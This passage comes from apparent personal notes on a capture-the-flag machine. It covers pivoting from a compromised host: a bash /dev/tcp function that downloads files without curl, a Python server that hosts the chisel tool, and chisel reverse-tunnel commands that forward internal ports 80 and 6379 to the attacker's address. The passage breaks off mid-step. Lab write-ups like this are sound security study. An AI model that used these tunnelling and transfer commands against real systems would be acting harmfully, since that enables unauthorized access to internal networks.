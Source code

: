 we need one way to get access to [[port 80]] and [[port 6379]]. With [[chisel]] we can do that.

one step is transfer chisel to victim machine, but we not have curl allowed. We going to use the function [[__curl()]] implemented in bash for this
```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```
This function allows us to perform HTTP request.
and with [[Python]] use simple HTTP server to serve [[chisel]]

```python
python -m http.server 8080
```
![[Pasted image 20250418161105.png]]

To check if `chisel` are transferred correctly we use [[md5sum]] firm and compare in victim machine.

```bash
echo 3fab7e53aad03a4e33166a99a7e4a630 == $(md5sum ./chisel | awk '{print $1}') && echo -e "\n\t[+] Correct.\n"
```

if `[+] Correct.` is printed `chisel`is transferred correctly.

then we need create a tunnel for can access to port 80 and 6379.
fist going to create a chisel server on our host machine:

```bash
sudo ./tools/chisel server --reverse -p 1234
```

now, in the victim machine create a `chisel` client:

```bash
./chisel client 10.10.16.2:1234 R:80:172.19.0.4:80 R:6379:172.19.0.2:6379
```

and we receive two tunnels:
![[Pasted image 20250418162509.png]]
then can check page on port 80 of our localhost
![[Pasted image 20250418162558.png]]
indeed, it works.
checking the source code (`ctrl + u`) we got:
![[Pasted image 20250418162652.png]]
three functions, one for get count of "hits" and another one for increase that "hits". lets try with `8924d0549008565c554f8128cd11fda4/ajax.php?test=incr hits` endpoint.
if you got a error 
```
```